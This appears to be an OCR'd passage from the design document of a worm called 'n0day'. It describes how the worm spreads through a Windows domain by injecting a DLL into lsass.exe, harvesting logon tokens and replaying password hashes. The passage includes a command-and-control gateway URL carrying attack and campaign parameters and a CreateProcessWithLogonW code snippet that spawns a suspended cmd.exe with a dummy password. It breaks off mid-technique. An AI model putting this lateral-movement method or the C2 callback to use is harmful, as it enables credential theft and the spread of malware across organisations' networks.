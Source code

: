     http://google.com:80/gateway/gate.php?a=$attack_id&w=$campaign_id&c=$sha1sum
    
    

====[5] [Intranet Propagation]=====================================================================

    The n0day worm is designed to attack critical machines on a Microsoft
domain infrastructure. The n0day Token Manipulation (nTM) technique is not 
any sort of typical exploit code (utilizing process exploitation). Instead, it
reaps reward from the shakey Microsoft AD User Session architecture.

    Contemporary Microsoft domains use either NTLMv2 or Kerberos to 
allow a client to authenticate with the DC. If a user logs into a Windows client, 
his password is hashed and sent to the DC that verifies the credentials. 
This communication is relatively secure (especially with Kerberos), so grabbing
hashes from network chatter becomes increasingly difficult. 

    Upon successful logon, the LSA creates an access token representing the
that session. explorer.exe will inherit those credentials, and allow the user 
to access network resources without having to log in again. The tokens reside
in memory while the session remains active. Sessions are created when a user logs
into a local system, a user attempts to "run as..." another user, or when a user 
logs into a machine via RDP. There are other means also, for instance, database
or application communication.

    These tokens contain the "key" to user impersonation. Essentially, a user
can be impersonated without any password or username. The nTM technique exploits
this Microsoft "feature" to propagate through the network.




====[5] [Intranet Propagation]=====================================================================
    [5b] Hash Replay (n0day Token Manipulator - nTM)

    Once the n0day DLL is loaded into lsass.exe, it attempts to locate all
existing logon/session tokens. The nTM engine replays hashes by creating a
"husk" process with dummy credentials. Usually, this will fail considering
the process cannot start without proper credentials. However, this is not the 
case! The husk is started with the user and domain credentials of a real
user, so nTM is using a *real* username and domain. nTM must use a dummy
password and search for the hashed password in memory. So windows will create
a token with the correct user, domain and session of the impersonated token, 
but with an incorrect NTLM. 

CreateProcessWithLogonW(    real_token.user,            // This user exists
                            real_token.domain,          // The domain is correct
                            L"dummy_password",          // Password is wrong
                            LOGON_NETCREDENTIALS_ONLY,  // Creates a new token
                            NULL,
                            L"C:\\windows\\system32\\cmd.exe",
                            CREATE_SUSPENDED,           // Must be suspended
                            NULL,
                            NULL,
                            &startup_info,
                            &process_info)
                            